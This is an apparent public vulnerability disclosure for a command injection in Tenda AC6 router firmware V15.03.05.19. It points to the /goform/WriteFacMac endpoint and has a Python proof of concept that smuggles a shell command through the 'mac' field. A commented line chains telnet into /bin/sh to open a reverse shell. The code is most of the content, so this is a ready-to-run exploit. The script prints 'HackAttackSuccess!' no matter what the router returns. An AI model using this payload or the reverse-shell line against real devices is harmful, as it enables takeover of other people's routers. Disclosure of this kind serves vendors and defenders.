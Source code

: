 # AC6V1.0 V15.03.05.19 **Command Injection**

## Firmware information

Manufacturer's address:https://www.tenda.com.cn/

Firmware download address: https://www.tenda.com.cn/download/detail-2681.html

## Affected version

![image-20230812195503176](https://gitee.com/blogyoulin/img/raw/master/images/202308121955891.png)

## Vulnerability details

![image-20230812195524401](https://gitee.com/blogyoulin/img/raw/master/images/202308121955441.png)

In /goform/WriteFacMac, There is command injection

```
import requests
from pwn import*

ip = "192.168.182.111" #You Tenda AC6 Router IP
url = "http://" + ip + "/goform/WriteFacMac"
print(url)

#payload = ";cmd"
#payload = ";telnet ip port1 | /bin/sh | telnet ip port2"
payload =b';ls>/tmp/256.txt;'

cookie = {"Cookie":"password=ucwmji"}
data = {"mac": payload}
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
print("HackAttackSuccess!")
```

